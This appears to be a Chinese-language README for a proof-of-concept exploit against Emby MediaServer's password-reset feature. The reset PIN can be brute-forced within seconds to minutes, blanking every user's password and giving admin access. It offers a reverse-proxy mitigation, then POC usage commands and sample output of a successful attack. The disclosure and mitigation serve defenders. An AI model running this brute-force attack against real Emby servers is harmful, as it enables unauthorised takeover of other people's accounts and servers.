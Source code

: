 # Emby MediaServer <= 4.9.1.80/4.9.2.6 beta 任意用户密码重置

也是老洞了，但一直没修，甚至最新版也存在，重置密码的 Pin 过短导致可以爆破。

临时缓解办法：考虑在反向代理上拦截 /emby/Users/ForgotPassword 和 /emby/Users/ForgotPassword/Pin 请求，并增加速率限制，当然这不治本。

## POC 用法

PIN 默认是 0721，一般能在几分钟内爆破出来，所有用户密码会重置为空，能直接登录管理后台。

```bash
$ docker run -d -p 8096:8096 emby/embyserver:v4.9.1.80
$ python main.py <server> [-u <user>] [-p <pin>]
$ python main.py http://localhost:8096

第1次尝试中
...
第5391次尝试中

===== 成功！ =====
重置的用户名：sdaflfjjkefnkjan
使用的PIN码：0721
总尝试次数：5391次
总用时：14.64秒
```

## 参考文献

https://www.exploit-db.com/exploits/41946

https://dev.emby.media/reference/RestAPI/UserService/postUsersForgotpassword.html

https://dev.emby.media/reference/RestAPI/UserService/postUsersForgotpasswordPin.html

http://localhost:8096/web/index.html#!/startup/forgotpasswordpin.html
